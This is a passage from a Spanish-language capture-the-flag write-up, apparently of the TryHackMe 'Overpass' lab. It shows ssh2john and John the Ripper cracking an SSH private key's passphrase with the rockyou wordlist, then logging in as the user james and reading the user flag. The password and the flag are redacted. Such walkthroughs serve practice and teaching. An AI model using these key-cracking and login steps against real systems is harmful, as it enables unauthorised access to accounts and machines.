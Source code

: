 > /usr/share/john/ssh2john.py id_rsa > overpass.txt

Para obtener la contraseña podremos usar John ora vez:

```bash
❯ /usr/sbin/john --wordlist=/home/jorge/Descargas/rockyou.txt overpass.txt
Created directory: /home/jorge/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
???????          (id_rsa)     
1g 0:00:00:00 DONE (2022-10-16 14:40) 33.33g/s 445866p/s 445866c/s 445866C/s lespaul..handball
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Nos muestra la contraseña. Intentaremos conectarnos por SSH con la clave privada y la contraseña descifrada:

```bash
❯ ssh -i id_rsa james@10.10.189.162
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct 16 18:46:19 UTC 2022

  System load:  0.08               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.189.162
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```

Estamos dentro, conseguimos la flag del usuario:

```bash
james@overpass-prod:~$ ls -R
.:
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{????????????????????????}
```
